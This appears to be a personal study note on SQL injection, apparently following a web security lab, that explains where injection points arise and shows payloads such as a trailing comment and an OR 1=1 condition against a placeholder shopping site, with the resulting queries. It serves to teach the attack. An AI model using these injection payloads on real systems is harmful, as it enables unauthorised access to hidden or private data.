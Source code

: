 
*Where most of the SQL injection vulnerability occurs?*
- within the `WHERE` clause or a `SELECT` query
- anywhere

*Common locations where SQL injection arises:*
    In `UPDATE` statements, within the updated values or the `WHERE` clause.
    In `INSERT` statements, within the inserted values.
    In `SELECT` statements, within the table or column name.
    In `SELECT` statements, within the `ORDER BY` clause.

### Example:
When you click on Gifts to display different products your URL changes to 
```html
https://insecure-website.com/products?category=Gifts
```

This causes application to:
- make SQL query 
- retrieve details of the relevant products from the db
- release = 1; used to hide products that aren't yet released
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

in case of no defences
- -- is a comment indicator in SQL
- so the query will no longed include *AND released = 1*
- as a result all products are displayed
```sh
https://insecure-website.com/products?category=Gifts'--
```

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

displaying all products in all categories
- 1=1 is always true, so it will return all items
```sh
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

## Retrieving hidden data
## 🟩 Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
## Subverting application logic
Login as wiener:bluecheese
```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```
